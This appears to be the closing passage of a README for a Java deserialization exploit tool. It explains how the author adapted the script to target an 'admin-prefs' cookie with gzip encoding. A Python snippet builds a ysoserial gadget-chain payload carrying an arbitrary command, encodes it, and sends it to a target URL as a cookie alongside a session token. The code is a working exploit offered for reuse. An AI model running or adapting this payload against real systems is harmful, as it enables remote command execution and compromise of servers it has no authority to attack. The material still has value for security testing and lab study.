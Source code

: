 p.s.
In our case we will send the serialized through the cookie as can be seen at the script and can be adjusted to the specific case.

### Example of adjusting the script

In another scenario I had to make 2 adjustments for the script to work:

1. The serialized cookie wasn't at the session cookie but at the `admin-prefs` cookie, so I had to adjust accordingly the cookies I sent in my GET request.

2. Instead of base64 -> urlencode the cookie, I had to gzip -> base64 -> urlencode the cookie.

You can find the changes I made in the snippet below:

```python
def create_cookie(payload, command):
    os.system(f"PATH=/usr/lib/jvm/java-11-openjdk-amd64/bin:$PATH java -jar ~/Downloads/ysoserial-all.jar {payload} '{command}' | gzip > cookie.gz")
    os.system("cat cookie.gz | base64 > cookie_base64.txt")
    with open('cookie_base64.txt') as f:
        lines = f.read()
    cookie = lines.strip()
    return urllib.parse.quote(cookie)

def send_cookie(url, cookie):
    pattern = r"https://([^/]+)"
    match = re.search(pattern, url)
    domain = match.group(1)
    session_cookie = "<SESSION COOKIE>"
    headers = {
        "Host": "{}".format(domain),
        "Cookie": "admin-prefs={}; session={}".format(cookie, session_cookie),
    }

    response = requests.get(url, headers=headers)

    return response
```

## Suggestions
Have any suggestions? Something is missing? (ðŸ˜¬) You can leave us an issue and we will look into it ðŸ˜ƒ
